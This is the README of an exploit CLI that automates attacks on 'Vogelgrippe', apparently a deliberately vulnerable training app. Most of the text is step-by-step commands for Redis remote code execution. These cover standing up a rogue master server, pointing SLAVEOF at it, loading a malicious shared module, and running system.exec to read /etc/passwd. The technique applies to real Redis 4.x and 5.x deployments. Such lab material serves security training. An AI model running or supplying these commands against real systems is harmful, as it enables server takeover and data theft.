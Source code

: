 # Vogelgrippe Exploits CLI

Small command line application written in Python that automates different attack scenarios for the Vogelgrippe application.

## Installation

Create and activate the virtual environment for the `vogelgrippe-exploit` package

```
python -m venv venv
source ./venv/bin/activate
pip install --editable .
```

Check out what you can do now
 
```
vg-exploit --help
```

## General Usage

Make sure to login first

```
vg-exploit login <USERNAME>
```

Next, send your payloads. Make sure to specify the Redis instance that is reachable from the frontend.
Within Docker or K8S, this should be `vogelgrippe-redis:6379`.

```
vg-exploit redis --redis-host vogelgrippe-redis:6379 .\redis_payloads\hackedflag.txt
```

## Remote Code Execution (RCE)

For this exploit to work, you need to first start a Redis rogue server.

This exploit (for Redis 4.x and 5.x) was inspired by [Redis Post-Exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).
The code was taken and adapted from [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server).

The rogue server acts as a fake Redis master host and can upload a shared library to a real Redis.

### Usage

#### Kubernetes Deployment

If you run Vogelgrippe inside K8S it may be that your Redis instance can not access the local rogue server.
For that, build and run the following temporary container in your cluster.
Make sure to use the K8S Docker environment as explained in the root README.

```
docker build --tag redis-rogue-server .\redis_payloads\redis-rogue-server
kubectl run redis-rogue-server --rm -i --tty --expose --port 6666 \
    --image-pull-policy=IfNotPresent --image redis-rogue-server
```

It might be the case that you don't see proper console output.

#### Local Deployment

Build the `module.so` from the already linked git submodule from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

```
git submodule init
git submodule update

cd ./redis_payloads/redis-rogue-server/RedisModules-ExecuteCommand

make
```

Move back to `./redis_payloads/redis-rogue-server` and start the server to listen on all interfaces on port `6666`

```
cd redis-rogue-server
python redis-rogue-server.py --lhost 0.0.0.0 --lport 6666
```

Inside the `./redis_payloads/rce.txt` change the `SLAVEOF` command so that it points to the ip address and port of your rogue server.
Then, run the RCE exploit, which makes our rogue server a slave and injects the `module.so` to `/tmp/exp.so`

```
vg-exploit redis --redis-host vogelgrippe-redis:6379 .\redis_payloads\rce.txt
```

You should see some output on your rogue server on success and the exploit should already have created the file `/tmp/maliciousfile`

The compromised Redis instance can now execute arbitrary code like so

```
$ redis-cli
127.0.0.1:6379> system.exec cat${IFS}/etc/passwd
# will print /etc/passwd from Redis host
```

You don't need the rogue server anymore.
